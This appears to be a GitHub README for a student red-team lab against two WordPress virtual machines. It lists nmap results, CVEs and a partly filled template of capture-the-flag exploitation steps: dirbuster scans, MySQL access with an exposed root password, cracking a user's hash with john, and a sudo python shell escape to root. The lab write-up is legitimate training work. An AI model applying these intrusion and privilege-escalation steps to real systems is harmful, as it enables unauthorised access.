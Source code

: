 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used
TODO: Identify the exploit used.
TODO: Include the command run.
flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
TODO: exposed root password and then uncovered hashes via mysql
TODO: mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
TODO: john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
TODO: ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag2.txt: 
Exploit Used
TODO: Identify the exploit used.
TODO: Include the command run.
flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
TODO: Identify the exploit used.
TODO: Include the command run.

